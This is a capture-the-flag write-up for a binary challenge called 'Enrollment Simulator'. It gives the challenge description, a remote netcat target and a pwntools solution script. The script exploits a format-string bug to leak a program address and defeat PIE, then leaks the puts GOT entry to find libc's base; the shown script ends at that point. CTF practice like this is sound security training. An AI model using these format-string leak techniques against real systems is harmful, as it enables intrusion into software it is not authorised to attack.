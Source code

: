 # Enrollment Simulator
Author:650  
Binary  
Description  
Solves 1  

Have you ever experience the joy from the enrollment of COMP2633? Do you want to relive such joy? Let me introduce to you, the one and only, COMP2633 ENROLLMENT SIMULATOR!!!!!!  

[Enrollment simulator](./program)

[Source](https://files.firebird.sh/chal-2024/08/enrollment_simulator.c)

`nc chal.firebird.sh 35042`

## Solution
```py
from pwn import * 
binary = "./program_patched"

p = process(binary)
p = remote("chal.firebird.sh", 35042)
elf = ELF(binary)
libc = ELF('./libc.so.6')
s = '''
b* enrollment_simulator+218
'''
#gdb.attach(p, s)

# First interaction - input email and reason
p.sendlineafter(b"6. Quit", b'1')
p.sendlineafter(b"ITSC email:", b'dummy')
p.sendlineafter(b"late enrollment:", b"%27$p")


# Second interaction - view the info
p.sendlineafter(b"6. Quit", b'4')
p.recvuntil(b"0x")


main_addr = b'0x' + p.recvuntil(b"W", drop = True) #b'0x561d57871532'
main_addr = int(main_addr.decode(), 16) #decode and convert to int with base 16 
#print(hex(main_addr))


elf.address = main_addr - 0x1532

puts_entry = elf.got['puts']

#print(hex(puts_entry))
p.sendlineafter(b"6. Quit", b'1')
p.sendlineafter(b"ITSC email:", p64(puts_entry)) # put GOT entry address to a stack variable 
p.sendlineafter(b"late enrollment:", b"%8$sAAAA") # dereferences to GOT entry address 

p.sendlineafter(b"6. Quit", b'4')
p.recvuntil(b"Reason for late enrollment:\n")
GOT_leak = int.from_bytes(p.recvuntil(b"A", drop = True), 'little')

libc.address = GOT_leak - libc.sym['puts']

#print(hex(GOT_leak))
#print(hex(libc.address))

```